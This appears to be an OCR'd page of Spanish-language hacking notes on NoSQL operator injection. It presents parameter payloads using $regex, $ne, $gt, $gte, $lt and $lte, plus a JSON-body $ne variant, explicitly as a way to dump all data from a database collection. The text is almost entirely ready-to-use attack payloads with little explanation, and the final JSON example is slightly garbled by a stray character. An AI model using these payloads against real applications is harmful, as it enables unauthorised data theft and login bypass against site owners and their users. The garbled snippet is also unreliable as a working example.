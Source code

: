 ## INFO

Podemos aprovechar los operadores para forzar una exfiltración de toda la data de una colección:

### Regex:

        variable[$regex]=.*

### No-Match

        variable[$ne]=noexistente

### Length

En este caso los terminos a buscar van en blanco.

Buscar todos los documentos que sean mayores que

        variable[$gt]=

Buscar todos los documentos que sean mayores o iguales a

        variable[$gte]=

### TILDA
Usamos la tilda para buscar todos los datos que sean menores a la misma (tilda es el valor imprimible más largo de los valores ASCII).

        variable[$lt]=~

Misma lógica con menor o igual:

        variable[$lte]=~


## En objetos JSON:

Podemos introducir estas queryes en objetos JSON dentro del value encerrado en llaves:

{
        "username": { "$ne" : "x"p}

}
